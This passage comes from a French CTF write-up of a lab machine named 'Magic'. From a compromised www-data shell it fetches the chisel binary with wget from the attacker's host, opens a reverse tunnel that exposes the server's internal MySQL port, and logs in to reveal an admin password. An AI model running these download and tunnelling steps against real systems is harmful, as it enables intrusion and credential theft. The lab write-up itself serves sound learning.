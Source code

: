 ### Mysql connection (chisel port forwarding) : admin creds
On remarque que le port mysql est bien ouvert (3306), cependant, l'outil **mysql** n'est pas installé et on ne peut pas se connecter à la base de donnée :
```bash
www-data@magic:/var/www/Magic$ ss -lntp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
...   
www-data@magic:/var/www/Magic$ mysql

Command 'mysql' not found, but can be installed with:
...
```
Pour contourner cela, j'ai décidé d'utiliser **chisel** pour faire du **port forwarding**. Le but étant d'accéder au port 3306 du serveur depuis ma machine hôte. Pour faire cela, il suffit de telecharger le binaire chisel sur la page github. Voici les commandes à effectuer:
```bash
www-data@magic:/var/www/Magic$ wget http://10.10.16.2/chisel
--2025-07-24 07:00:58--  http://10.10.16.2/chisel
Connecting to 10.10.16.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: 'chisel'

chisel             100%[===================>]   8.94M   336KB/s    in 26s     

2025-07-24 07:01:25 (351 KB/s) - 'chisel' saved [9371800/9371800]

3306data@magic:/var/www/Magic$ ./chisel client 10.10.16.2:1082 R:3306:localhost:3306 > /dev/null 2> /dev/null &
[1] 5146
....

-----------------------

$ ./chisel server -p 1082 --reverse
2025/07/24 16:02:12 server: Reverse tunnelling enabled
2025/07/24 16:02:12 server: Fingerprint 4PDYwTjgAniyianMIlBvt3QRTZm4VpYL+kFf1nXfQPg=
2025/07/24 16:02:12 server: Listening on http://0.0.0.0:1082
2025/07/24 16:03:19 server: session#1: tun: proxy#R:3306=>localhost:3306: Listening
```

Depuis ma machine hôte, j'utilise la commande **mysql** pour me connecter a mon port local 3306 qui est forward vers le port 3306 du serveur. On trouve alors une database "Magic" et une table "login" contenant les credentials suivants:
admin : `Th3s3usW4sK1ng`

```bash
$ mysql -h 127.0.0.1 -P 3306 -u theseus -p                
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 25
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
```